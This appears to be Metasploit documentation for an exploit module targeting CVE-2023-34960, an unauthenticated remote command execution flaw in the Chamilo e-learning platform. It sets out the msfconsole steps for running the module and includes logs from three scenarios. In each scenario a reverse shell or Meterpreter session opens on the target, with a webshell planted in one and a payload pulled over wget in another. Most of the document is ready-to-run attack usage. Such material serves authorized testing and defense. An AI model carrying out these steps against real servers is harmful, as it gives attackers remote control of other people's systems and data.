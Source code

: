 ## Vulnerable Application
`Chamilo` is an e-learning platform, also called Learning Management Systems (LMS).
This module exploits an unauthenticated remote command execution vulnerability that affects Chamilo versions `1.11.18`
and below. See [CVE-2023-34960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-34960).
Due to a functionality called `Chamilo Rapid` to easily convert PowerPoint slides to courses on Chamilo,
it is possible for an unauthenticated remote attacker to execute arbitrary commands at OS level using a malicious SOAP
request at the vulnerable endpoint `/main/webservices/additional_webservices.php`.

Read this [article](https://attackerkb.com/topics/VVJpMeSpUP/cve-2023-34960) on attackerkb.com for more details.

This module has been tested against Chamilo 1.11.18 on Ubuntu Linux 22.04 with PHP 7.4

### Installation
Instructions for a Chamilo installation on Ubuntu 22.04:
1. Download and install Ubuntu 22.04 server on VirtualBox (follow these [instructions](https://linux.how2shout.com/how-to-install-ubuntu-22-04-server-on-virtualbox/)).
2. Download and install LAMP on Ubuntu 22.04 server (follow these [instructions](https://linux.how2shout.com/2-ways-to-install-lamp-server-on-ubuntu-22-04-20-04/)).
3. Download Chamilo releases [here](https://github.com/chamilo/chamilo-lms/releases).
4. Follow installation instructions [here](https://11.chamilo.org/documentation/installation_guide.html#1._Pre-requisites).

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/chamilo_unauth_rce_cve_2023_34960`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <ip-attacker>`
- [ ] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter`
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > options

Module options (exploit/linux/http/chamilo_unauth_rce_cve_2023_34960):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                         cs/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The Chamilo endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the
                                        local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell name will be randomly generat
                                        ed if left unset.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP
```
## Options

### TARGETURI
The uripath to the `Chamilo` web application. Default set is to `/`.

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

## Scenarios
### Ubuntu 22.04 PHP - php/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.47
[+] Deleted cfLzNvTgdlp.php
[*] Meterpreter session 23 opened (192.168.201.10:4444 -> 192.168.201.47:42220) at 2023-07-28 20:29:19 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-76-generic #83-Ubuntu SMP Thu Jun 15 19:16:32 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter >
```
### Ubuntu 22.04 Unix Command - cmd/unix/reverse_bash
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > set target 1
target => 1
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 24 opened (192.168.201.10:4444 -> 192.168.201.47:32810) at 2023-07-28 20:30:48 +0000

uname -a
Linux cuckoo 5.15.0-76-generic #83-Ubuntu SMP Thu Jun 15 19:16:32 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Ubuntu 22.04 Linux Dropper - linux/x64/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > set target 2
target => 2
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:1981/hexZf4ppmqBlG
[*] Client 192.168.201.47 (Wget/1.21.2) requested /hexZf4ppmqBlG
[*] Sending payload to 192.168.201.47 (Wget/1.21.2)
[*] Sending stage (3045348 bytes) to 192.168.201.47
[*] Meterpreter session 25 opened (192.168.201.10:4444 -> 192.168.201.47:55508) at 2023-07-28 20:32:02 +0000
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 192.168.201.47
OS           : Ubuntu 22.04 (Linux 5.15.0-76-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/www/html/chamilo/main/inc/lib/ppt2png
meterpreter >
```

## Limitations
No limitations.
